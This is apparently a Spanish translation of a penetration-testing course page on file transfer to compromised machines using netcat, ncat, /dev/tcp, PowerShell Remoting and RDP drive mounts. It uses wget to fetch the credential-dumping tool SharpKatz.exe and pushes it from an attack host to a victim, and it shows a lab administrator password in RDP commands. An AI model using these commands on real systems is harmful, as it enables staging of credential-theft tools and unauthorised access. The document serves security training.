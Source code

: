 ## netcat
[Netcat](https://sectools.org/tool/netcat/) (a menudo abreviado como `nc`) es una utilidad de red informática para leer y escribir en conexiones de red mediante TCP o UDP, lo que significa que podemos utilizarla para operaciones de transferencia de archivos. El Netcat original fue [lanzado](http://seclists.org/bugtraq/1995/Oct/0028.html) por Hobbit en 1995, pero no se ha mantenido a pesar de su popularidad. La flexibilidad y utilidad de esta herramienta impulsaron al Proyecto Nmap a producir [Ncat](https://nmap.org/ncat/) , una reimplementación moderna que admite proxies SSL, IPv6, SOCKS y HTTP, intermediación de conexiones y más.

## Transferencia de archivos con Netcat y Ncat
#### NetCat - Máquina comprometida - Escuchando en el puerto 8000
```js
nc -l -p 8000 > SharpKatz.exe
```
Si la máquina comprometida usa Ncat, necesitaremos especificar `--recv-only` para cerrar la conexión una vez finalizada la transferencia del archivo.


#### Ncat - Máquina comprometida - Escuchando en el puerto 8000
```js
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

Desde nuestro host de ataque, nos conectaremos a la máquina comprometida en el puerto 8000 usando Netcat y enviaremos el archivo [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) como entrada a Netcat. La opción `-q 0`Le indicará a Netcat que cierre la conexión una vez que finalice. De esa manera, sabremos cuándo se completó la transferencia del archivo.

#### Netcat - Host de ataque - Envío de archivos a una máquina comprometida
```js
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

Al utilizar Ncat en nuestro host atacante, podemos optar por `--send-only` en vez de `-q`. El `--send-only`flag, cuando se usa tanto en modo de conexión como de escucha, solicita a Ncat que finalice una vez que se agota su entrada. Normalmente, Ncat continuará ejecutándose hasta que se cierre la conexión de red, ya que el lado remoto puede transmitir datos adicionales. Sin embargo, con `--send-only`, no es necesario anticipar más información entrante.

#### Ncat - Host de ataque - Envío de archivos a una máquina comprometida
```js
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
En lugar de escuchar en nuestra máquina comprometida, podemos conectarnos a un puerto de nuestro host de ataque para realizar la operación de transferencia de archivos. Este método es útil en escenarios donde hay un firewall que bloquea las conexiones entrantes. Escuchemos en el puerto 443 de nuestro Pwnbox y enviemos el archivo [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) como entrada a Netcat.

#### Host de ataque: envío de archivos como entrada a Netcat
```js
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Máquina comprometida Conéctese a Netcat para recibir el archivo
```js
nc 192.168.49.128 443 > SharpKatz.exe
```

Hagamos lo mismo con Ncat:
#### Host de ataque: envío de archivos como entrada a Ncat
```js
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Máquina comprometida Conéctese a Ncat para recibir el archivo
```js
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```


#### NetCat - Envío de archivos como entrada a Netcat
```js
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Ncat: envío de archivos como entrada a Netcat
```js
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Máquina comprometida que se conecta a Netcat usando /dev/tcp para recibir el archivo
```js
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

## Transferencia de archivos de sesión de PowerShell
Ya hablamos de realizar transferencias de archivos con PowerShell, pero puede haber escenarios en los que HTTP, HTTPS o SMB no estén disponibles. Si ese es el caso, podemos usar [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) , también conocido como WinRM, para realizar operaciones de transferencia de archivos.  [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) nos permite ejecutar scripts o comandos en un ordenador remoto mediante sesiones de PowerShell. Los administradores comúnmente usan PowerShell Remoting para administrar computadoras remotas en una red, y también podemos usarlo para operaciones de transferencia de archivos. De forma predeterminada, habilitar la comunicación remota de PowerShell crea un oyente HTTP y HTTPS. Los escuchas se ejecutan en los puertos predeterminados TCP/5985 para HTTP y TCP/5986 para HTTPS.  Para crear una sesión de PowerShell Remoting en una computadora remota, necesitaremos acceso administrativo, ser miembro de la `Remote Management Users`grupo, o tener permisos explícitos para PowerShell Remoting en la configuración de la sesión. Creemos un ejemplo y transfiramos un archivo desde `DC01` a `DATABASE01` y viceversa.  Tenemos una sesión como `Administrator` en `DC01`, el usuario tiene derechos administrativos sobre `DATABASE01`y la comunicación remota de PowerShell está habilitada. Usemos Test-NetConnection para confirmar que podemos conectarnos a WinRM.

#### Desde DC01: confirme que el puerto TCP 5985 de WinRM esté abierto en DATABASE01.
```powershell
PS C:\htb> whoami
htb\administrator
PS C:\htb> hostname
DC01
```

```powershell
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985
ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

Debido a que esta sesión ya tiene privilegios sobre `DATABASE01`, no necesitamos especificar credenciales. En el siguiente ejemplo, se crea una sesión en la computadora remota llamada `DATABASE01` y almacena los resultados en la variable denominada `$Session`.

#### Cree una sesión remota de PowerShell en DATABASE01
```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```
Podemos usar el `Copy-Item` cmdlet para copiar un archivo desde nuestra máquina local `DC01` hacia `DATABASE01` sesión que tenemos `$Session` o viceversa.

#### Copie samplefile.txt de nuestro Localhost a la sesión DATABASE01
```powershell
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

#### Copie DATABASE.txt de la sesión DATABASE01 a nuestro Localhost
```powershell
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

## RDP
RDP (Protocolo de escritorio remoto) se usa comúnmente en redes Windows para acceso remoto. Podemos transferir archivos usando RDP copiando y pegando. Podemos hacer clic derecho y copiar un archivo desde la máquina Windows a la que nos conectamos y pegarlo en la sesión RDP. Si estamos conectados desde Linux, podemos usar `xfreerdp` o `rdesktop`. En el momento de escribir, `xfreerdp` y `rdesktop` permitir la copia desde nuestra máquina de destino a la sesión RDP, pero puede haber escenarios en los que esto no funcione como se esperaba. Como alternativa a copiar y pegar, podemos montar un recurso local en el servidor RDP de destino. `rdesktop` o `xfreerdp` se puede utilizar para exponer una carpeta local en la sesión RDP remota.

#### Montar una carpeta de Linux usando rdesktop
```js
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

#### Montar una carpeta de Linux usando xfreerdp
```js
p314d0@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```


